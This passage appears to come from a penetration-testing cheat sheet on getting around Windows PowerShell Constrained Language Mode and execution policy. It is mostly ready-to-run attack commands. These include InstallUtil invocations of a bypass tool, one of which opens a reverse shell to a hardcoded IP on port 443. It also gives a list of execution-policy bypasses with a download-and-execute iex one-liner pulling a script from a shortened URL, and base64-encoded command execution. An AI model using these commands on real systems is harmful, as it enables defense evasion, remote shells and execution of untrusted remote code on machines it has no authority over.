 In current Windows that Bypass won't work but you can use[ **PSByPassCLM**](https://github.com/padovah4ck/PSByPassCLM).\
**To compile it you may need** **to** _**Add a Reference**_ -> _Browse_ ->_Browse_ -> add `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0\31bf3856ad364e35\System.Management.Automation.dll` and **change the project to .Net4.5**.

#### Direct bypass:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

#### Reverse shell:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

You can use [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) or [**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) to **execute Powershell** code in any process and bypass the constrained mode. For more info check: [https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode).

## PS Execution Policy

By default it is set to **restricted.** Main ways to bypass this policy:

```powershell
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
9º Use EncodeCommand
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
```

More can be found [here](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)

